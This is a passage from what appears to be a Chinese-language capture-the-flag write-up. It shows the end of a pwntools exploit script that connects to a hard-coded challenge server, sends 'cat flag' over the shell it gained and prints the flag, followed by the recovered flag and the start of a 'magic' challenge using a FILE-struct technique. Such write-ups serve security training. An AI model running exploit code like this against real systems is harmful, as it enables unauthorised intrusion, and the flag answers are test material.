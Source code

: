 ```python
    p.recv()
    #p.interactive()
    #p.recvuntil(b'\n')
    if remote_run:
        p.sendline('cat flag')
        flag = p.recvuntil(b'\n')
    else:
        p.interactive()

    log.info(flag)

if __name__ == "__main__":
    ip, port = None, None
    remote_str = None
    remote_str = '220.249.52.133:57787'

    if len(sys.argv) > 1:
        remote_str = sys.argv[1]
    if remote_str:
        ip, port = remote_str.split(":")

    exp(ip, port)
```

#### flag

```text
cyberpeace{ed0dc788925f259852d21df4e82b4895}
```


### magic

#### 利用

*FILE struct*

#### 思路

结构体：

```c
struct wizard_t {
    char *name; // malloc(0x18)
    char *desc;
    long var1;
    long var2;
    long var3;
    long mp;
}
```

#### exp
